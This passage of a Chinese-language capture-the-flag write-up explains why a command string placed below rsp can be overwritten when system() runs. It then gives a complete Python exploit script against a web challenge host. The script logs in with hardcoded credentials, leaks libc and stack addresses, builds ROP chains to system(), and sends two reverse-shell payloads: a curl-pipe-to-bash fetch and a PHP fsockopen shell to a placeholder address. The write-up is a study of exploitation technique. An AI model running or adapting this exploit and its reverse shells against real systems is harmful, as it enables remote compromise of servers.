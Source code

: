 赛后看官方wp中有这么一句话：**Notice that the address of the path is smaller than rsp when return, and next call system may cover it, so you should put your command behind.**，这才恍然大悟，原来我放命令字符串的地址在调用system时**可能**会被覆盖。出题人的解释另一种可能是：fork时**可能**也只会复制高于rsp的栈空间中的内容。**如图红色的部分可能会被system函数当成栈空间来使用，其中布置的数据可能遭到破坏。**

![image](https://xuanxuanblingbling.github.io/assets/pic/mixture/mixture.png)

所以我们在payload里最好还是将命令字符串往后面放，构造如图中的第二种payload。本题也让我们注意了，我们能控制内存的能力，在**时间维度**上是有变化的。我这次失败的本质原因，就是因为没有洞察到，当下构造好的数据可能在未来（真正被用到的时刻）会被破坏。不过也有放在前面成功的攻击方法，如下面完整exp的attack2方法，所以上面的猜想都是**可能**。

### 最终exp

这里参考以上的wp给出两种栈布局分别利用两种反弹shell方法的exp：

```python
from pwn import *
import requests,re

url  = "http://134.175.185.244"
libc = ELF("./libc.so")
session = requests.Session()

def login():
    paramsPost = {"password":"goodlucktoyou","submit":"submit","username":"admin"}
    session.post(url+"/index.php", data=paramsPost)

def send(payload):
    paramsPost = {"submit":"submit","search":payload}
    response = session.post(url+"/select.php", data=paramsPost)
    return re.findall('\<\/form\>(.*?)\<br\>',response.content)[0]

def read(payload):
    paramsPost = {"submit":"submit","search":payload}
    response = session.post(url+"/select.php", data=paramsPost)
    return response.content[1517+len(payload):-1]

login()

# leak libc and stack
libc.address = int('0x'+re.findall('(.*?)libc-2.28',read("/proc/self/maps"))[0][:12],16)
stack = u64(send('a'*0x64)[0x64:].ljust(8, b'\0'))

log.warn("stack: "+str(hex(stack)))
log.warn("libc: "+str(hex(libc.address)))

# gadget
pop_rdi  = libc.address + 0x023a5f
pop4_ret = libc.address + 0x024568

def attack1():
    payload = "a"*0x88
    payload += p64(pop_rdi) + p64(stack+0xa0) + p64(libc.symbols['system'])
    payload += "curl https://shell.now.sh/x.x.x.x:8888|bash\x00"
    send(payload)

def attack2():
    payload = "php -r '$sock=fsockopen(\"x.x.x.x\",8888);exec(\"bash -i <&3 >&3 2>&3\");'\x00".ljust(0x88)
    payload += p64(pop_rdi)*10+p64(pop4_ret)+p64(0)*4
    payload += p64(pop_rdi)+p64(stack)+p64(libc.symbols['system'])
    send(payload)

attack2()
```
